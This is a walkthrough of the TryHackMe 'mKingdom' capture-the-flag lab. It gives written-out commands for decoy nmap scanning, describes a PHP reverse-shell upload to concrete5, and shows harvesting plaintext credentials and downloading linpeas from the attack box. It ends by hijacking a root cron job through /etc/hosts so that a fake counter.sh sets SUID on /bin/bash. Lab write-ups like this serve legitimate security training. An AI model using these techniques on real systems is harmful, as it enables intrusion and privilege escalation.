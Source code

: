 ![intro](https://github.com/user-attachments/assets/352398d3-7036-426f-8735-18b607e1f22e)

# tryhackme-CTF-writeup-for-mkingdom

This is a walkthrough for the tryhackme CTF mkingdom. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a webserver on port 85:

![nmap](https://github.com/user-attachments/assets/6e9260bd-2c0f-4f72-ae61-0feece3a008a)

Visiting this webserver we see this image of Bowser:

![bowser](https://github.com/user-attachments/assets/5027b68b-1510-432f-8e82-b2b9824a84b5)

Using exiftool on the image reveals that the creater is b0ws53r. 

![exif](https://github.com/user-attachments/assets/6a372813-6216-499a-ad9f-8851eb1d1d98)

Let's run a gobuster and nikto scan on the target:

![gobuster + nikto](https://github.com/user-attachments/assets/52b6696d-72fa-4069-a95e-885787ab9668)

The scans reveal a directory called /app. At first this brings us to a button called jump, and after clicking it a few times, it takes us to toad's expensive website. Let's examine the source code:

![source](https://github.com/user-attachments/assets/5ad9209e-80cc-43d8-9c73-90a87896a060)

The code reveals that the site is using concrete5 8.5.2. I did a little research on how to exploit this and came across this article on hackerone.com:

![concrete exploit](https://github.com/user-attachments/assets/5d16a8c7-a37d-4bd8-89a7-c5f03afb8414)

I tried a some typical default username and password combos a very basic combo worked for the login. Now, we're going to follow the steps described in the hackerone article to change file properties to allow php file extensions in settings, and upload a php reverse shell. I'm going to use revshells.com, put in my IP, choose a 4 digit port and pick a shell. I'm going to use php pentest monkey.
And we now have a reverse shell as www-data!

![www-data](https://github.com/user-attachments/assets/d8d732b3-4ee2-4e56-82e9-45ce03d92f6f)

# Privilege Escalation
First, I will check the /etc/passwd file for users. I then searched around the home directory but permission is denied for the directories. So, I headed back to www-data's home, and started looking around for useful files. We saw from the source code earlier that the web server is built off of the /app/castle/application, so I'll search there for something we can use. I then found the directory config. It's always a good idea to check the config directory to see if there is senitive info. And the file database.php contains a plain text password for user toad.

![su toad](https://github.com/user-attachments/assets/b40596f7-8cfd-43f0-8a4e-dbe45cf34f3f)

I ran sudo -l as toad, but toad can't run sudo on this machine. Let's head to /home/toad and see what we can find. smb.txt contains a message from mario:

![smb txt](https://github.com/user-attachments/assets/7d4d89b6-9751-4d8e-8e88-6182f2c6e284)

It's always a good idea to check files such as .bash_history and .bashrc to look for senitive info. I checked out .bashrc and noticed a PWD_token that appears to be base64 encryped. We can decrypt it on the target:

![bashrc](https://github.com/user-attachments/assets/8515dba8-aebf-456d-83b2-680b1b3952ec)

I then used this password to su mario:

![su mario](https://github.com/user-attachments/assets/ede5ede8-50dd-48e7-98ca-234218844851)

Notice that we cannot use the cat command, so I used the less command to view the contents of user.txt.
Now, let's head to /tmp, and run linpeas. I ran a python server from kali:
```bash
python3 -m http.server
```
And wget from mario:
```bash
wget http://<your IP>:8000/linpeas.sh
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh >> output
```

I didn't find many concrete things that we could use, other than some files that we have write access to, like the /etc/hosts file. 
It's also interesting that toad has /bin/cat:

![bin_cat](https://github.com/user-attachments/assets/113baa75-f33d-46d7-b107-a2e2e38b4cf8)

We also see that mario has write access to /etc/hosts file:

![linpeas_etc_hosts](https://github.com/user-attachments/assets/897b47cb-db6b-445c-8112-cad10924157d)

# Exploitation
Let's use pspy to see if we can find processes to exploit:

![pspy64](https://github.com/user-attachments/assets/db94d3b3-e0b9-4ccb-ad6d-3d1a76525d1d)

This process looks like something we can exploit:

![pspy counter sh](https://github.com/user-attachments/assets/824d5ffd-a36a-494e-b15f-d8b8d9ca57d7)

This command starts by downloading the script (counter.sh) from a (mkindom.thm:85).
The downloaded script is then passed to bash for execution.
The output produced by the script execution is appended to the log file located at /var/log/up.log.
This type of command, which downloads and executes a script from the internet without verification, can be very dangerous. As we saw earlier, we have access to /etc/hosts, se we can pontenially execute malicious code. 

First, let's check out that /etc/hosts file:

![etc_hosts](https://github.com/user-attachments/assets/5fb19660-513b-40ae-8711-197105da5953)

The next file to check out is the script in the process command counter.sh:

![counter sh_up log](https://github.com/user-attachments/assets/e9c5459d-3986-4fa8-9a6c-e64e733fd637)

So we don't have write access to counter.sh or up.log. But what we can do, is modify the /etc/hosts file to change the IP of mkingdom.thm:85 to point to our IP. This way, we can make our own counter.sh script and trick the target into executing it, as root. So, once the target executes the script, we can change the SUID of the bash binary, so mario can run as root.

The first step will be to modify the /etc/hosts file to point to our IP. I found the easiest way to do this is copy the contents of the /etc/host file onto kali, because using nano and editing the file on the target was finicky and hard to see what I was doing, change the mkingdom IP to ours, and copy the contents back into the targets /etc/hosts file.
The modified /etc/hosts file should look like this except with the mkingdom IP pointing to the IP of your attack box:

![modified _etc_hosts](https://github.com/user-attachments/assets/2e6104b5-5c7b-4551-8bd0-f86e186fc22c)

Next, on our attack box, create a script replicating counter.sh complete with the file path. 
First, create the directory:
```bash
mkdir -p /tmp/app/castle/application
```
Then create a bash script for counter.sh. This script will set the SUID bit on /bin/bash binary:
```bash
#! /bin/bash/env bash

chmod 4755 /bin/bash
```
Then set up the sever on port 85 directing to our counterfit version of counter.sh:
```bash
sudo python3 -m http.server 85 --directory /tmp
```

![server_counter sh](https://github.com/user-attachments/assets/8bb05441-3bf7-4078-8fa3-6223e52caa14)

Now we should see the cron job coming from our target IP making a GET request to our counter.sh with a 200 status.

Then as mario, we can run this command to check the /bin/bash:
```bash
ls -l /bin/bash
```
Then, run this command as mario to bash with the SUID privileges:
```bash
/bin/bash -ip
```

![cat_root txt](https://github.com/user-attachments/assets/3f5a0cc5-0c26-43c9-8254-615f495f2dbc)

And we are now root! 
